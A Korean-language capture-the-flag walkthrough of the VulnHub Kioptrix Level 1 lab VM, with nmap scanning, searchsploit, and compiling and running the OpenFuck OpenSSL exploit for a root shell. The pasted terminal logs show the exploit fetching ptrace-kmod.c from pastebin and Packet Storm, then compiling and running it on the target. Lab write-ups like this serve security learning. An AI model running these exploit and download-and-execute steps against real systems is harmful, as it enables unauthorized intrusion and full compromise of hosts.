 # Kioptrix Level 1 (#1)

## Workstation
- Virtual Box : VMware Workstation 16 Player
- OS : kali-linux-2022.01

## Walkthrough
[https://www.vulnhub.com/entry/kioptrix-level-1-1,22/](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

KIOPTRIX: LEVEL 1 (#1) 에 대한 가상머신은 위 사이트에서 다운받을 수 있다.

해당 가상머신을 다운받은 후 VMware 워크스테이션에서 열어 활성화 시킨다.

![kioptrix level 1](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/kioptrix_level_1.png)

가상머신의 아이피 주소를 알기 위해 `ip addr` 명령어를 사용해 IP 대역을 확인한다.

![ip addr](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/ip_addr.png)

IP 대역을 확인해 보니 192.168.159.0/24 대역을 사용 중이다.

그럼 이 대역에서 사용하는 클라이언트들을 확인하기 위해 `nmap -sn` 명령어를 사용해 확인한다.

![nmap-sn](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap-sn.png)

내 아이피는 `192.168.159.128` 이므로 Kioptrix Level 1의 가상머신 아이피는 `192.168.159.129`이다.

그럼 가상머신에 열려있는 포트와 버전을 알기 위해 `nmap -sT -sV` 명령어로 네트워크 스캔을 한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap.png)

80번 포트에 http 서버가 열려있다. 80번 포트에 대한 취약점이 있는지 `searchexploit` 명령어를 버전에 맞게 검색한다.

![searchexploit](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/searchexploit.png)

`OpenSSL/0.9.6b` 에 OpenFuck.c 라는 취약점이 발견됐다. 가장 최신버전인 파일을 `searchexploit -m 47080` 명령어를 사용해 내 디렉터리에 복사해 온다.

![copy](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/copy.png)

복사한 파일을 확인해 보면 다음과 같이 컴파일하라는 명령어가 있다.

![47080](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/47080.png)

그럼 안내해준 명령어를 사용해 해당 파일을 컴파일 한다.

![gcc](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/gcc.png)

컴파일된 파일을 실행해 보면 사용할 수 있는 옵션들이 나오는데, 그 중 취약점으로 발견된 `RedHat Linux apache-1.3.20-16` 에 대한 옵션을 찾는다.

![0x6b](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/0x6b.png)

`0x6b` 옵션을 사용해 가상머신의 루트 권한을 획득해 본다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--15:08:57--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
bash-2.05$ 
```

루트 권한을 얻지 못하고 apache 권한을 얻었다. 취약점 공격이 실패 해 확인해 보니 Exploit DB에 업로드된 OpenFuck.c 파일이 이전버전으로 루트 권한을 얻지 못했다. 해당 파일은 삭제 후 다른 OpenFuck 파일을 받아 컴파일하여 실행한다.

`git clone https://github.com/heltonWernik/OpenFuck.git`

![git](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/git.png)

![compile](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/compile.png)

다시 컴파일된  실행해 보면 루트 권한을 얻은 쉘을 얻을 수 있다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--15:19:17--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

15:19:19 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6076
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```
